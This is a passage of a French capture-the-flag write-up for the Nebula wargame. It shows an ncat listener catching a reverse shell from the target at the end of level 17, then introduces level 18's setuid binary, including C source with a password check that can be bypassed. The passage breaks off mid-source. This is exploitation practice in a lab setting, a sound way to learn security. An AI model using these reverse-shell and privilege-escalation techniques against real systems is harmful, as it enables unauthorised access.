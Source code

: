 ```bash
$ ncat -l -p 9999 -v
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::9999
Ncat: Listening on 0.0.0.0:9999
Ncat: Connection from 192.168.56.97.
Ncat: Connection from 192.168.56.97:59835.
id
uid=982(flag17) gid=982(flag17) groups=982(flag17)
getflag
You have successfully executed getflag on a target account
```

## Level 18

Ce level a été de loin le plus difficile. D'ailleurs la solution n'est pas de moi.

On a un fichier `password` qui nous est inaccessible et un binaire setuid :

```bash
level18@nebula:/home/flag18$ ls -l
total 13
-rwsr-x--- 1 flag18 level18 12216 2011-11-20 21:22 flag18
-rw------- 1 flag18 flag18     37 2011-11-20 21:22 password
```

On dispose aussi du code source du binaire :

```c
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <stdio.h>
#include <sys/types.h>
#include <fcntl.h>
#include <getopt.h>

struct {
  FILE *debugfile;
  int verbose;
  int loggedin;
} globals;

#define dprintf(...) if(globals.debugfile) \
  fprintf(globals.debugfile, __VA_ARGS__)
#define dvprintf(num, ...) if(globals.debugfile && globals.verbose >= num) \
  fprintf(globals.debugfile, __VA_ARGS__)

#define PWFILE "/home/flag18/password"

void login(char *pw)
{
  FILE *fp;

  fp = fopen(PWFILE, "r");
  if(fp) {
      char file[64];

      if(fgets(file, sizeof(file) - 1, fp) == NULL) {
          dprintf("Unable to read password file %s\n", PWFILE);
          return;
      }
                fclose(fp);
      if(strcmp(pw, file) != 0) return;       
  }
  dprintf("logged in successfully (with%s password file)\n",
```